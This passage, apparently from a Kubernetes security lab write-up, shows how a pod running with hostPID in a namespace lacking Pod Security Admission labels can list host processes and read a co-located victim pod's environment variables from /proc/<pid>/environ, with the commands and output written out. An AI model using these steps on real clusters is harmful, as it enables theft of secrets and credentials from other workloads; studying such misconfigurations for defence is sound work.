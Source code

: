 This allows us to read enviroments of others cluster pods processes and kill processes
```yaml
...
spec:
  hostPID: true
...
```
If we do nothing with the namespace and do not assign any labels, we can simple run it and benefit:
```bash
> kubectl -n vuln-psa-ns exec -it pods/hostpid-pod -- ps aux

USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.1 170336 12704 ?        Ss   Aug11   1:49 /sbin/init
root           2  0.0  0.0      0     0 ?        S    Aug11   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        S    Aug11   0:00 [pool_workque
root           4  0.0  0.0      0     0 ?        I<   Aug11   0:00 [kworker/R-rc
root           5  0.0  0.0      0     0 ?        I<   Aug11   0:00 [kworker/R-rc
root           6  0.0  0.0      0     0 ?        I<   Aug11   0:00 [kworker/R-sl
root           7  0.0  0.0      0     0 ?        I<   Aug11   0:00 [kworker/R-ne
root           9  0.0  0.0      0     0 ?        I<   Aug11   0:00 [kworker/0:0H
root          11  0.0  0.0      0     0 ?        I    Aug11   0:00 [kworker/u8:0
root          12  0.0  0.0      0     0 ?        I<   Aug11   0:00 [kworker/R-mm
root          13  0.0  0.0      0     0 ?        I    Aug11   0:00 [rcu_tasks_kt
root          14  0.0  0.0      0     0 ?        I    Aug11   0:00 [rcu_tasks_ru
root          15  0.0  0.0      0     0 ?        I    Aug11   0:00 [rcu_tasks_tr
root          16  0.0  0.0      0     0 ?        S    Aug11   0:05 [ksoftirqd/0]
...
```
To test our ability to steal env we can create another pod (in default ns, doesn't matter) and get the source of ```/proc/pid/environ``` file(it's obviously important so that the both pods would be on the same node):
```yaml
victim.yml
apiVersion: v1
kind: Pod
metadata:
  name: victim
spec:
  containers:
  - name: victim
    image: ubuntu
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "FLAG=supersecret sleep 9999999" ]
  nodeName: worker
```

```bash
kubectl -n vuln-psa-ns exec -it pods/hostpid-pod -- bash

root@hostpid-pod:/# ps aux | grep 999
root     1549154  0.0  0.0   2384  1024 ?        Ss   20:17   0:00 sleep 9999999

root@hostpid-pod:/# grep -a "FLAG" /proc/1549154/environ 
FLAG=supersecretKUBERNETES_SERVICE_PORT_HTTPS=443KUBERNETES_S....
```
